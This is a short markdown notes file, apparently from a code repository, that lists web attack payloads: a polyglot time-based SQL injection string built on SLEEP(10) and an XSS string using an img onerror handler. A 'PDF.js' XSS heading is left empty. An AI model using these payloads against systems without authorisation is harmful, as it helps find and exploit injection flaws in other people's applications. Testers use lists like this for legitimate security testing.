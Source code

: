 # payload
 ## SQLi one for all
    
    SLEEP(10)+/*'+or+SLEEP(10)+or'"+or+SLEEP(10)+or+"*/
 ## XSS
 
    "><img src=dwqdwq onerror=console.log(1)>
    
 ## XSS PDF.js
    
   
